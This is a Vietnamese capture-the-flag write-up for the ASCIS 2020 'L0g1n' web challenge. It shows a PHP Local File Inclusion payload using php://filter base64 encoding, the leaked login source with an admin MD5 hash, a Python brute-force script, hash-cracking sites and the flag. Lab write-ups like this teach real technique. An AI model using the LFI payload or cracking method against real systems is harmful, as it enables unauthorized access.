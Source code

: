 ```yaml
---
title: "L0g1n - ASCIS 2020 "
date: 2020-10-18T11:18:29.946Z
draft: false
categories:
  - CTF
tags:
  - bruteforce
  - md5
  - php
---
```

Truy cập vào trang chủ ta được redirect từ \`http://34.87.32.27/\` => \`http://34.87.32.27/?page=home\`

Sau khi thử đăng ký và đăng nhập. Ta biết được form đăng ký không hoạt động nhưng khi đăng ký với username là admin thì hệ thống báo là user đã tồn tại. Vậy ta cần phải login được với username là admin.

![](/img/dyn3ran-imgur.png)

Theo pattern trong khung đăng ký ta biết được password nằm từ a đến h và 0 đến 9, password có thể từ 4 đến 7 kí tự.

Bây giờ ta có thể burteforce. Nhưng khoan đã, các trang ta truy cập đều có dạng \`?page=<tên trang>\` ta có thể đoán được trang được php require dựa trên tham số page trên url. Ta thử truy cập \`http://34.87.32.27/login.php\` thay vì \`http://34.87.32.27/?page=login\` để kiểm tra.

![](/img/wazk82w-imgur.png)

Tốt không hề có lỗi 404 Not Found. Ta thử khai thác Local File Inclusion của php. Truyền `php://filter/convert.base64-encode/resource=login` vào tham số page (xem thêm tại [đây](https://aadityapurani.com/2015/09/18/read-php-files-using-lfi-base-64-bypass/)). Ta được một đoạn base64 của source login.php

![](/img/4buj8i6-imgur.png)

Sau khi decode ra ta được source:

```php
<?php
if (!defined('check_access')) 
{
        die("<font color='red' size='5'>(￣^￣)ゞ Hi Comrade, Something Wrong!</font>");
}
?>
<html>
	<title> L0g1n </title>
	<body>
		<h1><font color="purple">🔑 Login</font></h1>
<?php

if(empty($_SESSION["form_token"]))
{
	$gen_token=md5(uniqid(rand(), true));
	$_SESSION["form_token"] = $gen_token;
}

echo '<h3>';

if(isset($_POST["username"]) && !empty($_POST["username"]) && isset($_POST["password"]) && !empty($_POST["password"]) && isset($_POST["token"]))
{
	if($_SESSION["form_token"]===$_POST["token"])
	{
  		unset($_SESSION['form_token']);
  		$_SESSION["form_token"] = md5(uniqid(rand(), true));
  		if ($_POST["username"] === "admin" && md5($_POST["password"]) === "c3cef6586e2e5705d9ed18ba8f4346c0")
  		{
  			$_SESSION['user'] = "admin";
  			print("Ok... Have a good day!");
  		}
  		else if ($_POST["username"] === "admin") 
  		{
  			print("Wrong Password, <font color='red'>(╯°-°)╯</font><font color='brown'>彡┻━┻</font>");
  		}
  		else
  		{
  			print("Wrong Username/Password<br><font color='blue'>‿︵‿︵‿︵‿</font><font color='red'>ヽ(°□° )ノ</font><font color='blue'>︵‿︵‿︵‿︵</font>");
  		}
	}
}
else 
{
	print("Hello, Login here <font color='green'>＼(＾▽＾)／</font>");
}

echo '</h3>';

?>

<?php
if(isset($_SESSION['user']) && $_SESSION['user']==="admin")
{
	print("Logged in");
}
else
{
$token = $_SESSION["form_token"];
$form = <<<EOF
		<form action="?page=login" method="POST">
			<br><strong>USERNAME</strong> <br><input type="text" name="username" /><br>
			<strong>PASSWORD</strong> <br><input type="password" name="password" /><br><br>
			<input type="hidden" name="token" value="$token" />
			<button type="submit" class="button1">Login</button>
		</form>
		Don't have an Account? Register <a href="?page=register">here</a>
EOF;
print($form);
}
?>

	</body>
</html>
```

Như vậy ta biết được username là admin và password sau khi băm md5 sẽ là `c3cef6586e2e5705d9ed18ba8f4346c0` giờ ta có thể burteforce md5:

```python
from itertools import product·
from hashlib import md5
br = False
for repeat in range(4, 8):
    per = product('abcdefgh0123456789', repeat=repeat);
    for password in (per):
        check = "".join(password)
        check = md5(check.encode()).hexdigest()
        if(check == 'c3cef6586e2e5705d9ed18ba8f4346c0'):
            print("".join(password))
            br = True
    if br:
        break
```

Hoặc nhanh hơn ta có thể kiểm tra md5 này đã được tìm ra chưa bằng các trang như [crackstation.net](https://crackstation.net/), [hashes.com](https://hashes.com/en/decrypt/hash), [cmd5.org](https://cmd5.org/), [hashtoolkit.com](https://hashtoolkit.com/), [gromweb.com](https://md5.gromweb.com/), [md5hashing.net](https://md5hashing.net/)

![](/img/8y0o5jw-imgur.png)

Và sau khi đăng nhập ta có được cờ bị che bằng font chữ trắng `ASCIS{__Hav3_Y0u_Heard_Ab0ut__HTML_PATT3rN?_}`

![](/img/twob6sb-imgur.png)